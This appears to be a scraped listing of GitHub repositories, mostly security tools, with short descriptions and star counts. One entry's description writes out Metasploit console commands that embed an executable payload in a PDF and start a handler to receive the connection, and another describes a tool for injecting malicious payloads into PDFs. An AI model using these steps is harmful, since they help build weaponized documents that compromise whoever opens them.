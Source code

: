 **Stars:** 3372 | **Forks:** 1055

---

### [WhatsApp-bot-selenium](https://github.com/harshitsidhwa/WhatsApp-bot-selenium)
This is a simple Web WhatsApp Bot developed in python using Selenium. Helpfull to send messages to whatsapp contacts automatically using web.whatsapp.com and web automation.

**Stars:** 243 | **Forks:** 94

---

### [CyberGuard](https://github.com/azgnt/CyberGuard)
CyberGuard is a customizable and user-friendly cybersecurity tool that uses AI to scan networks, detect vulnerabilities, and provide recommendations for improvement.

**Stars:** 1 | **Forks:** 0

---

### [exploitdb-API](https://github.com/asrocha/exploitdb-API)
No description provided.

**Stars:** 16 | **Forks:** 8

---

### [crackscanner](https://github.com/kdairatchi/crackscanner)
Nmap on crack using py

**Stars:** 1 | **Forks:** 0

---

### [Metasploit-Payload-apk-binder-](https://github.com/rajamrit12/Metasploit-Payload-apk-binder-)
use exploit/windows/fileformat/adobe_pdf_embedded_exe_nojs  set lhost  set lport 4040  set filename mypdf.pdf  exploit  $ mv -v .......... /sdcard  msfconsole   use exploit/multi/handler  set lhost  set lport  exploit

**Stars:** 5 | **Forks:** 12

---

### [PyQt5-PDFInjector-Tool](https://github.com/Busirus/PyQt5-PDFInjector-Tool)
This Python app allows users to inject malicious payloads into PDF files through a GUI. It supports three injection methods: URL, file, and JavaScript. Users select the input and output PDF files, choose a payload, and the app creates a new PDF with the payload injected. Pre-defined JavaScript payloads are also available. 
